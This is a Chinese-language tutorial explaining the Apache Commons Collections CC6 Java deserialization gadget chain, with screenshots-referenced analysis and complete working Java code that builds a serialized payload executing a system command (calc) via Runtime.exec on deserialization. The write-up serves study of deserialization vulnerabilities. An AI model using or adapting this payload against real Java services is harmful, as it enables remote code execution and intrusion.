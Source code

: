 ### CommonsCollections cc6

CC1 链在 java 8u71 之后对 CC1 链中的 membervalue 的获取方法进行了修改，同时删掉了 checkvalue 方法，导致 CC1 链不可以使用了，所以 CC1 链同时受到 jdk 版本和外部库的约束，有没有一个链子是不受 jdk 版本的约束呢，那就是 CC6 。

#### 链条分析

原始的 CC1 链子如下，其实 CC6 的链子只是在前两步进行了修改。

**AnnotationinvcationHandler.readObject >> Proxy(AnnotationinvcationHandler) >> LazyMap.get >> ChainedTransformer.transform >> InvokerTransformer.transform**

CC6 的链子

**HashMap.readObject >> TiedMapEntry.hashcode >> LazyMap.get >> ChainedTransformer.transform >> InvokerTransformer.transform**

我们先看下 TiedMapEntry 的 hashcode 方法。

![hashcode](img_cc6/TiedMapEntry_hashCode.png)

其中执行了 getvalue 方法，我们跟进一下这个方法。

![getvalue](img_cc6/TiedMapEntry_getValue.png)

可以看到，它进行了 map.get 的操作，如果我们传一个 LazyMap 给它，就会调用 LazyMap 的同名 .get 方法。

我们继续看下 hashmap.readobject 中是怎么调用的。

![readobjec](img_cc6/Hashmap_readobject.png)

调用了对 key 进行了 hash 操作，那么 hash 干了什么呢？

![hash](img_cc6/hash.png)

运行了 key.hashcode 操作，如果我们传一个 TiedMapEntry 给他，他就会执行 TiedMapEntry.hashcode 那么这条链就成立了。

这里面临第一个问题，因为 map.put 方法也会调用 hashcode 方法，所以我们的进行反序列化的时候，就会把这条链走完了，所以我们需要 put 的时候先放一个没用的值，之后再反射改回来，这里你可以选择多个地方进行修改，我选择改掉，LazyMap 的 factory ，就是放 ChainedTranformer 的位置。

这里还有第二个问题，因为 TiedMapEntry 它会校验我们给他的 key 存不存在 LazyMap 中，如果不存在，他就会放进去，这就导致我们反序列化的时候不会运行 factory.transform ，可以手动调试一下看看。

![LazyMap_put](img_cc6/LazyMap_put.png)

可以看到我们序列化的时候 TiedMapEntry 把我们给他的 key 放进去了，导致反序列化的时候，map.containsKey 为 true， 不能正确运行到 .tranform 方法，解决方法也很简单，put之后，我们手动给他删了就行。

完整代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
        public static void main(String[] args) throws Exception {

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
            
            HashMap<Object, Object> map = new HashMap<>();
            //先放一个没用的 factory 进去
            Map lazymap = LazyMap.decorate(map, new ConstantTransformer(1));
            //我们用的是 map，key 就随便写了
            TiedMapEntry tiedMapEntry= new TiedMapEntry(lazymap, "aaa");
            //我们 new 一个 hashmap ，把 tiedMapEntry 放进去
            HashMap<Object, Object> map2 = new HashMap<>();
            //对 key 做 hashcode ，所以 value 随便写
            map2.put(tiedMapEntry, "bbb");
            //删掉 TiedMapEntry 放进来的 key = 'aaa'
            lazymap.remove("aaa");
            //通过反射把 factory 改回我们的 ChainedTransformer
            Class c = LazyMap.class;
            Field declaredField = c.getDeclaredField("factory");
            declaredField.setAccessible(true);
            declaredField.set(lazymap, chainedTransformer);

            serialize(map2);
            unserialize("ser");



        }

        public static void serialize(Object obj) throws IOException {
            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser"));
            oos.writeObject(obj);
        }

        public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
            ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
            Object obj = ois.readObject();
            return obj;
        }
    }
```